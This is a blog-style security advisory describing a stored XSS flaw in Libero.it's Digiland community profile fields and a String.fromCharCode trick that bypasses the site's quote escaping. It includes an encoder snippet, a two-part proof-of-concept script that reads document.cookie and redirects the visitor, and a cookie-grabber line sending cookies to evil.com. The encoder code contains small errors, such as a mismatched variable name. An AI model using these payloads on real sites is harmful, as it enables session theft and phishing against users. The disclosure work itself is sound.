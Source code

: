 ```yaml
--- 
layout: post
title: "Advisory: Libero.it XSS Vulnerability"
meta: 
  _oembed_e8ca828b69f69de0e22e7e271ad7dc26: "{{unknown}}"
  _wp_page_template: default
  _oembed_3d718b72c63aacfdf79d1fb38e6253f1: "{{unknown}}"
  _oembed_631062b4a4548c51f235907d114d6fd4: "{{unknown}}"
  _oembed_116a79a942c74cddb055bd8503a08054: "{{unknown}}"
  autometa: nick nick digiland script fromcharcode arbitrary vulnerability profile
  _oembed_40a3ac3cf2f3c38b4c5f3ef6a652909c: "{{unknown}}"
tags: 
- Me &amp; The Web
---
```

After the report of Rosario Valotta on this ML, another XSS vulnerability
has been found on Libero.it, one of the most important italian ISP
(www.libero.it).

Nothing more than a trivial error but, since Libero.it staff used the
printed media to inform that it was only a "spot" issue, it is
important to demonstrate that this kind of errors are quite more
widespread and to let the Libero staff and management realize that a
potential attack
must be avoid by a deep check of the portal.

The vulnerability once again can be found in the "Community" section
of Libero portal, and the affected functionality is the profile
creation and retrival
<http://digiland.libero.it/profilo.phtml?nick=XssForFun&top=1>.

The implementation of this functionality allows the injection of
malicious code in the profile, so that an attacker by visiting his/her
profile can:

1) steal username
2) steal cookies
3) arbitrary redirection for Phishing pourpose

The normal URL would be something linke this:

<pre>
http://digiland.libero.it/profilo.phtml?nick=Nick&top=1
</pre>

where "Nick" is the name of the nick whose profile has been
manipulated to add arbitrary code.

This vulnerability resemble to those in MySpace and other communities.
So it's nothing really complicated and you can skip on from here ;)

In admin pages (need to be logged by creating a fake account) on page

<pre>
http://digiland.libero.it/profilo_add.php?nocache=1175076655
</pre>

there are two different fields named "I miei difetti:" (my defects)
and "i miei pregi:" (my strong points) that accept arbitrary content.

As stated by Rosario, the Libero.it web application performs a simple
parsing of the posted content, so that quote and double-quote (' and ")
chars are escaped by putting a \ before of them (both using ASCII and URL
encoding).

While I already had the Rosario's beautiful implementation of a simple
evasion technique I preferred to encode the single char in an old
snippet of mine.
The aim of the snippet (I don't remember if I made it, stole it, stole
only the main idea or where, sorry)  is to transform a string into a
series of char numbers to be used with a String.fromCharCode command.
Due to the limitation in size, the function which create the
String.fromCharCode sequence is a detached and ascii value is
decreased of 100 to limit the number of digits.
This is the creation snippet:

<pre>
 &lt;script>
 var toBenc = "hettp://www.lastknight.com";
 var result = "";

  for (var k = 0; k < carlo.length; k++)
 {
         result += ("e(" + (toBenc .charCodeAt(k) - 100) + ")+");
 }

 document.write(result + "<br>")
 &lt;/script>
</pre>  

 So URL "http://www.lastknight.com" is rendered as:
 <pre>
e(4)+e(16)+e(16)+e(12)+e(-42)+e(-53)+e(-53)+e(19)+e(19)+
e(19)+e(-54)+e(8)+e(-3)+e(15)+e(16)+e(7)+e(10)+e(5)+e(3)+
e(4)+e(16)+e(-54)+e(-1)+e(11)+e(9);
</code>

Using the tho box we can use the following code for a POC:

<pre>
[BOX 1]
 &lt;script>
 function e(A) {
  return String.fromCharCode(A + 100)
 }
 alert(document.cookie);
  &lt;/script>

 [BOX 2]
 &lt;script>
 var k =
 e(4)+e(16)+e(16)+e(12)+e(-42)+e(-53)+e(-53)+e(19)+e(19)+e(19)+e(-54)+e(8);
 k +=
 e(-3)+e(15)+e(16)+e(7)+e(10)+e(5)+e(3)+e(4)+e(16)+e(-54)+e(-1)+e(11)+e(9);
 alert(k);
 window.location = k;
  &lt;/script>
</pre>
  

The posting url can be easily modified to an http grabber such as:  

<pre>
http://evil.com/grab?c="+encodeURI(document.cookie);
</pre>

or (much more dangerous) to a phishing site.  
  
Session Riding and derived problems have not been tested.  
  
A POC url is available (until not deleted) here:

[http://digiland.libero.it/profilo.phtml?nick=XssForFun&top=1]  
  
Just my 2 cents and thanks to:    
  
**M1Sec**: for hints and Support  
**Rosario Valotta**:  for the first report, upon which this is based  
**SharDick**:  for help in JS ;)  
**Vokda**:  for consultancy and typo-killing ;)  
 
